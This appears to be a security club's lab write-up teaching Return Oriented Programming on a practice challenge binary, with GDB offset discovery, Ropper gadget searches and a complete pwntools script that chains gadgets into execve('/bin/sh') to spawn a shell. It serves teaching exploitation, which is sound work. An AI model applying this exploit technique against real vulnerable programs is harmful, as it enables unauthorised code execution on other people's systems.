


This week was the last of Ben's 4 week binary exploitation introductory series. It introduced the concept of Return Oriented Programming, demonstrated 2 methods of ROP exploitation on dynamic and statically linked binaries, and explained how some protections can be bypassed. The presentation slides can be downloaded [here](./presentation.pdf). We won't go into great detail into the theory of ROP, as it is covered in the presentation, but we will quickly recap on a high level.

Return Oriented Programming is a modern binary exploitation method designed to overcome the NX Stack compiler protection. It involves chaining together short series' of machine code instructions called *gadgets*. Using these gadgets, and a buffer overflow, we can redirect program flow and potentially gain code execution.  

## Demonstration 1: Classic ROP

The first demonstration covers what I call 'classic ROP'. It is the method of using ROP to achieve code execution without the use of external libraries. The first challenge binary is a statically linked.

```bash
> file challenge
challenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

It's not a very interesting program. It prints text to stdout, takes an input, prints something else, then exits.

```bash
> ./challenge
ROP me!
foobar
Bad luck. Exiting
```

Let's use GDB to find the offset to the return pointer, same as we did in the Stack Smashing exercises.

```py
pwndbg> cyclic 200 -n=8
pwndbg> r
pwndbg> x/xg $rsp
0x7fffffffd878: 0x6161616f61616161
pwndbg> cyclic -l 0x6161616f61616161 -n=8
108
```

We have an offset of 108, remember we can check this by sending a payload of 108 byte of junk data followed by a fake address such as `0xdeadbeef`. If 0xdeadbeef is in the RIP when the process SegFaults then we are correct.

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge")
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

offset = 108

p.sendlineafter(b"ROP me!", flat({offset: pack(0xdeadbeef)}))

p.interactive()
```

Running the program and attaching to GDB in the same way as last week, we see that 0xdeadbeef is in the RIP.



To exploit this program, we need to build an exploit that essentially does `execve("/bin/sh", 0, 0)` like our shellcode would although we need to use gadgets rather than shellcode due to the fact that NX Stack is enabled on the binary. PIE is not enabled meaning we can search for gadgets and hard code their addresses, as their location will not change at runtime.

Remembering x86_64 calling conventions, we need the string `/bin/sh` in RDI, and 0 in RSI and RDX. We also need a gadget for RAX and a syscall.  Let's use Ropper to find the gadgets for this. 

```py
> ropper --file challenge --search "pop rdi"
[...]
0x000000000040106d: pop rdi; ret;
> ropper --file challenge --search "pop rsi"
[...]
0x0000000000401073: pop rsi; mov rdi, rsi; ret;
> ropper --file challenge --search "pop rdx"
[...]
0x0000000000401078: pop rdx; ret;
> ropper --file challenge --search "pop rax"
[...]
0x0000000000401017: pop rax; syscall;
```

There are convenient gadgets for all operations we want to do, so we can build a ROP chain using the ROP module of pwntools. We should use the `pop rsi; mov rdi, rsi; ret;` gadget first as it will clobber any data in RDI.

We also need the string `/bin/sh`. Thankfully it already exists in the binary. If this were not the case our ROP chain would need to write `/bin/sh` into memory before trying to execve.

```py
pwndbg> search /bin/sh
challenge       0x40201c 0x68732f6e69622f /* '/bin/sh' */
```

We can now finish our script.

```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge", checksec=False)
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

# 59 execve	const char *filename const char *const *argv const char *const *envp 	
offset = 108

pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
pop_rax_syscall = rop.find_gadget(["pop rax", "syscall"])[0]
pop_rsi_mov_rdi_rsi = 0x0000000000401073
binsh = next(elf.search(b"/bin/sh"))
pop_rdx = rop.find_gadget(["pop rdx", "ret"])[0]
pop_rax = 0x000000000040107a

rop.raw(pop_rsi_mov_rdi_rsi)
rop.raw(p64(0))
rop.raw(pop_rdi)
rop.raw(binsh)
rop.raw(pop_rdx)
rop.raw(p64(0))
rop.raw(pop_rax_syscall)
rop.raw(p64(59))

p.sendlineafter(b"ROP me!", flat({offset: rop.chain()}))

p.interactive()
```

The exploit works. This shows how we can use the native instructions present in a program to create our own malicious exploit code.



